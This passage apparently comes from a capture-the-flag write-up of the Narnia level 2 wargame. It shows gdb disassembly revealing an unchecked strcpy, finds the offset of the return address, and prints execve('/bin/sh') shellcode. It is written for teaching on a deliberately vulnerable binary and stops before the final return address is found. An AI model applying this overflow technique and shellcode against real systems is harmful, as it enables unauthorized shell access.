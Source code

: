 ```nasm
   0x0804845d <+18>:	push   0x8048520
   0x08048462 <+23>:	call   0x8048300 <printf@plt>
   0x08048467 <+28>:	add    esp,0x8
   0x0804846a <+31>:	push   0x1
   0x0804846c <+33>:	call   0x8048320 <exit@plt>
   0x08048471 <+38>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048474 <+41>:	add    eax,0x4
   0x08048477 <+44>:	mov    eax,DWORD PTR [eax]
   0x08048479 <+46>:	push   eax
   0x0804847a <+47>:	lea    eax,[ebp-0x80]
   0x0804847d <+50>:	push   eax
   0x0804847e <+51>:	call   0x8048310 <strcpy@plt>
   0x08048483 <+56>:	add    esp,0x8
   0x08048486 <+59>:	lea    eax,[ebp-0x80]
   0x08048489 <+62>:	push   eax
   0x0804848a <+63>:	push   0x8048534
   0x0804848f <+68>:	call   0x8048300 <printf@plt>
   0x08048494 <+73>:	add    esp,0x8
   0x08048497 <+76>:	mov    eax,0x0
   0x0804849c <+81>:	leave
   0x0804849d <+82>:	ret
End of assembler dump.
(gdb) run $(python -c 'print 140 * "A"')
Starting program: /narnia/narnia2 $(python -c 'print 140 * "A"')

Breakpoint 1, 0x0804848f in main ()
(gdb) conti
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Now, we adjust our string size to precisely overwrite the return address.

```nasm
(gdb) run $(python -c 'print 132 * "A" + "BBBB"')
Starting program: /narnia/narnia2 $(python -c 'print 132 * "A" + "BBBB"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

As you can see, we need 132 bytes of garbage and 4 more bytes to overwrite the retrun address. Now, we need a shellcode and a return address that will read our shellcode. I choose another shellcode from [ExploitDB](https://www.exploit-db.com/exploits/43716) :

```text
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

To find the return address I placed a breakpoint right after the *strcpy()* call :
